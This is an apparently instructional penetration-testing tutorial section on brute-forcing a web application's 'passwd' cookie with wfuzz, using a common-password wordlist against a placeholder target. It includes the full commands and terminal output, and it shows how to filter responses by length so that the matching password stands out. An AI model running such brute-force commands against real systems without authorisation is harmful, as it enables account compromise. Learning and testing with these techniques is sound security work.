 ## Fuzzing Cookies
We can easily fuzz cookies with [wfuzz](https://github.com/xmendez/wfuzz). To view your cookie values, click on the [Cookie Quick Manager](https://addons.mozilla.org/en-US/firefox/addon/cookie-quick-manager/) installed in Firefox in Demon Linux. Next, grab the name and value of the cookie. Say, we want to fuzz the "passwd" cookie. We can do so with,
```
root@attacker-machine:~# wfuzz -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```
This will run though the word list of 10-million-password-list-top-500.txt and replace the cookie value, passwd, with the value from the wordlist and attempt to make a new HTTP request using that new cookie value. This will return a LOT of strings like so,
```
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://(TARGET IP ADDRESS):(TARGET PORT)
Total requests: 500

==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00000:  C=000     14 L	      29 W	    324 Ch	  "12345678"
00001:  C=000     14 L	      29 W	    324 Ch	  "qwerty"
00002:  C=000     14 L	      29 W	    324 Ch	  "123456789"
00003:  C=000     14 L	      29 W	    324 Ch	  "12345"
00004:  C=000     14 L	      29 W	    324 Ch	  "1234567"
00005:  C=000     14 L	      29 W	    324 Ch	  "1234"
00006:  C=000     14 L	      29 W	    324 Ch	  "123456"
00007:  C=000     14 L	      29 W	    324 Ch	  "111111"
00008:  C=000     14 L	      29 W	    324 Ch	  "password"
00009:  C=000     14 L	      29 W	    324 Ch	  "dragon"
00010:  C=000     14 L	      29 W	    324 Ch	  "123123"
00011:  C=000     14 L	      29 W	    324 Ch	  "123321"
00012:  C=000     14 L	      29 W	    324 Ch	  "mustang"
```
As you can see, they all have something in common - the Character length of 324 is returned from the server after we make each HTTP request with the new cookie. So, we need to filter out these false-positives using the `--hh` filter as so,
```
root@attacker-machine:~# wfuzz --hh 324 -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```
This will now be much cleaner responses, like the following terminal listing,
```
root@attacker-machine:~# wfuzz --hh 324 -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT) 
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://(TARGET IP ADDRESS):(TARGET PORT)
Total requests: 500

==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00475:  C=000     21 L	      48 W	    540 Ch	  "SuperSecretPass123"

Total time: 1.719570
Processed Requests: 500
Filtered Requests: 499
Requests/sec.: 290.7702

root@attacker-machine:~#
```
